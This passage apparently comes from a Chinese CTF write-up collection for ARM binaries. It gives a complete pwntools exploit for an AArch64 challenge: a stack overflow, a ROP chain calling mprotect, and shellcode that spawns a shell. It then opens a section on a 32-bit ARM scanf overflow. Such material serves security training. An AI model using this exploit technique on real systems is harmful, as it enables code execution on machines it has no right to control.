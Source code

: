 ### EXP

```python
from pwn import *
import sys
context.binary = "./pwn"
context.log_level = "debug"

if sys.argv[1] == "r":
    p = remote("remote_addr", remote_port)
elif sys.argv[1] == "l":
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "./pwn"])
else:
    p = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "./pwn"])

elf = ELF("./pwn")
libc = ELF("/usr/aarch64-linux-gnu/lib/libc.so.6")

shell_code = asm(shellcraft.sh())
shell_code = shell_code.ljust(0x100,'\x90')
shell_code = shell_code + p64(elf.plt['mprotect'])

payload = 'A' * 0x40 
payload += p64(0xdeadbeef)              # X19
payload += p64(0x4008CC)                # X20

payload += p64(0xdeadbeef)               # X29
payload += p64(0x4008AC)                 # X30
payload += p64(0) + p64(1)               # X19 , X20
payload += p64(0x411068 + 0x100)         # X21
payload += p64(0x7)                      # X22
payload += p64(0x1000)                   # X23
payload += p64(0x411000)                 # X24

payload += p64(0xdeadbeef)               # X29
payload += p64(0x411068)                 # X30
payload += p64(0) * 0x6                  # X19 - X24

p.recvuntil("Name:")
p.sendline(shell_code)
sleep(0.5)
p.sendline(payload)

p.interactive()
```

## root_me_stack_spraying

### 基本情况

32 位 arm 架构动态链接程序，打开 nx 保护。存在 scanf 函数栈溢出漏洞。通过调试测试得出溢出 0x44 后，就能控制 pc 寄存器。
